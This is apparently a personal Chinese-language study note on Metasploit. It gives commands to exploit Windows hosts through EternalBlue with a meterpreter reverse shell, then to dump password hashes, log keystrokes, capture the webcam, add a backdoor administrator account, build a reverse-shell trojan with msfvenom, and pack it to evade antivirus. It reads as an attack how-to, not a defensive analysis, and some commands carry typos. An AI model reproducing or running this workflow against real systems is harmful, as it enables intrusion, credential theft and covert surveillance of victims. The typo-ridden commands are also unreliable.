 ## Metasploit 简介及基础使用
msf是一款开源安全漏洞利用和测试工具, 集成了各种平台上常见的移除漏洞和流行的shellcode, 并继续保持更新

- kali切换中文目录`dpkg-reconfigure locals`
- `mafconsole` 启动metasploit命令行(需要在root用户下, 并使用`msfdb init`初始化数据库)
- msf使用法则, 实现对主流漏洞的攻击
	1. 使用模块 use \[module_name]
	2. 配置模块必选项 set \[option_name] \[value]
	3. 运行模块 run

### Metasploit利用永恒之蓝攻击windows
#### 永恒之蓝
永恒之蓝是指2017年4月14日晚, 黑客团体Shadow Brokers公布一大批网络攻击工具, 其中包含"永恒之蓝"工具. "永恒之蓝"利用Windows系统的SMB漏洞可以获取系统最高权限. 5月12日, 不法分子通过改造"永恒之蓝"制作了wannacry勒索病毒, 英国, 俄罗斯, 整个欧洲以及中国国内多个高校校内网, 大型企业内网和政府机构专网中招, 被勒索支付高额赎金才能解密恢复文件

1. 使用模块 `use exploit/windows/smb/ms17_010_eternalblue`
	- `search ms17_010` 搜索漏洞模块, `use 0` 选取对应模块
2. 配置必选项 `show options`, (required字段为yes的必选)
	- `set RHOST xxx.xxx.xxx.xxx` 攻击目标
	- `set payload windows/x64/meterpreter/reverse_tcp` 攻击载荷, 攻击完成后想干啥 (meterpreter是后渗透神器), 系统/架构/作用/方式
	- `set LHOST xxx.xxx.xxx.xxx` 本机地址
	- `set LPORT 12345` 本机使用的端口, 空余端口随便选
3. `run` / `exploit` 开始攻击

### meterpreter
远程控制, 命令执行, 摄像头监控, 密码获取, 创建后门用户, 破坏篡改系统......
- `getuid` 当前权限; `getpid` 当前进程; `ps` 查看所有进程
- `sysinfo`操作系统信息; `shell` 进入命令行; `chcp 65001` 更改为中文代码页
- `hashdump` 获取所有用户的密码, 在cmd5上解密
- `keyscan_start`, `keyscan_stop` 开启/关闭键盘监听
- `keyscan_dump` 导出键盘监听结果
- `run vnc` 开启远程桌面
- `webcam_list` 查看摄像头
- `webcam_snap` 通过摄像头拍照
- `webcam_stream` 通过摄像头开启视频

#### 键盘监听
- 当前必须登录为当前操作的用户才能监听到, 也就是放弃管理员用户权限
- `migrate 3340` 转移至3340进程下(用户的进程)然后监听
- 转低权限用户后无法恢复高权限

#### 远程桌面
- 要求管理员权限, `run getgui -e` 开启远控
- `net user yiye1 admin@123 /add && net localgroup administrators yiye1 /add` 添加用户并移动到管理员组
- 在kali中`rdesktop [tarip]` 连接远程桌面
- 免杀: 加壳: 压缩壳, 加密壳

### msfvenom生成后门木马
- mafvenom是用来生成后门的软件, 在目标机上执行后门, 在本地监听上线
- `msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=xx.xx.xx.xx loprt=xxxx -f exe -o demo.exe` 生成木马文件, 上传到目标机
	- -p 指定payload
	- -f 指定文件格式
	- -o 输出文件
- 在msfconsole里开启监听
	1. `use exploit/mutil/handler` 使用模块
	2. `set payload windows/x64/meterpreter/reverse_tcp`
	3. `set lhost xx.xx.xx.xx`, `set lport xxxx` 监听对应模块, 要与木马相同
	4. `exploit -j` 后台挂载运行, 等待目标机运行木马, 自动生成会话
- 使用Themida加壳, 绕过火绒

### 云服务器安装matasploit
- kali在内网中, 在实际渗透测试攻击过程中, 如遇到需要反弹shell的情况, 互联网中的靶机无法连接至内网中的kali, 故可以租赁一台有公网IP的云服务器作为攻击机
![[Pasted image 20220813111100.png]]